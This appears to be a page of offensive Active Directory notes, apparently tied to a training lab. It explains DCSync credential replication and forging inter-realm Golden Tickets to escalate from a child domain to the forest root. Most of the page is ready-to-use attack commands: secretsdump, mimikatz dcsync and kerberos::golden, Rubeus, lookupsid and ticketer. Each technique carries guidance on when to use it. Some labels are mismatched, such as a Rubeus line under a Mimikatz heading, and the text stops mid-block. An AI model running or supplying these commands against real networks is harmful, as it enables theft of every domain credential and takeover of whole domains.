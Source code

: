 ### DCSync

* **What it does:** An attack that impersonates a Domain Controller and asks another DC to replicate user credential data. This requires specific privileges (`DS-Replication-Get-Changes`). A successful DCSync yields the NTLM hash of every user in the domain, including the `krbtgt` account.
* **When to use it:** Once you have compromised a user who has DCSync rights (often found via BloodHound or ACL enumeration).
* **Example Commands:**
    ```shell
    # From Linux, using secretsdump.py
    secretsdump.py -just-dc-user INLANEFREIGHT/administrator "ACADEMY-EA-DC01$"@172.16.5.5 -hashes <LM:NTLM>
    ```
    ```shell
    # From Windows, using Mimikatz
    # You must be running as a user with DCSync rights
    .\Rubeus.exe asktgt /user:ACADEMY-EA-DC01$ /certificate:<CERT> /ptt
    mimikatz.exe "lsadump::dcsync /user:inlanefreight\krbtgt"
    ```

### Attacking Domain Trusts

* **What it does:** Exploits trust relationships to escalate privileges from a compromised domain to a trusting one (e.g., from a child domain to the parent forest root). The primary method is the **Inter-Realm Golden Ticket**.
* **When to use it:** When you have compromised the `krbtgt` hash of one domain and want to attack a domain that trusts it.
* **Example Workflow (Golden Ticket):**
    1.  **Enumerate Trusts:**
        ```powershell
        Get-ADTrust -Filter *
        ```
    2.  **Get the `krbtgt` hash** of the trusted domain (e.g., `LOGISTICS.INLANEFREIGHT.LOCAL`) via DCSync.
    3.  **Get the SID of the `Enterprise Admins` group** in the *target* trusting domain (e.g., `INLANEFREIGHT.LOCAL`).
        ```python
        lookupsid.py inlanefreight.local/user@dc01.inlanefreight.local | grep -B12 "Enterprise Admins"
        ```
    4.  **Forge the Golden Ticket** using the trusted domain's `krbtgt` and injecting the target domain's Enterprise Admins SID.
        ```shell
        # Using Mimikatz on Windows
        mimikatz.exe kerberos::golden /user:hacker /domain:LOGISTICS... /krbtgt:<hash> /sids:<target_EA_sid> /ptt
        ```
        ```shell
        # Using Impacket on Linux
        ticketer.py -nthash <hash> -domain LOGISTICS... -extra-sid <target_EA_sid> hacker
        export KRB5CCNAME=hacker.ccache
        ```
    5.  **Access resources in the target domain** with your new Enterprise Admin ticket.
        ```powershell
        # Now that the ticket is in memory, this will work